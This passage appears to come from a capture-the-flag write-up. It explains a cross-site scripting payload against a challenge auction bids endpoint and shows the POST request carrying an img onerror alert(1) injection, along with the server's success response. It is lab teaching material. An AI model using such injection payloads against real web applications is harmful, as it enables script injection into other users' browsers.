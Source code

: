 All this payload is doing is:
- Escaping the single quote
- Closing the `div`
- Making a typical `onerror` alert in an `img` tag
- Make a new `div` with attribute `x` to store the rest of the data

Let's make the request:
```
POST /api/auctions/1/bids HTTP/1.1
...

bid[]=test'%3C/div%3E%3Cimg%20src=x%20onerror=alert(1)%3E%3Cdiv%20x='
```

```json
{"success":true}
```

![alert1.png](images//25-htbcyberapocalypse/alert1.png)

![stare.png](images//25-htbcyberapocalypse/stare.png)
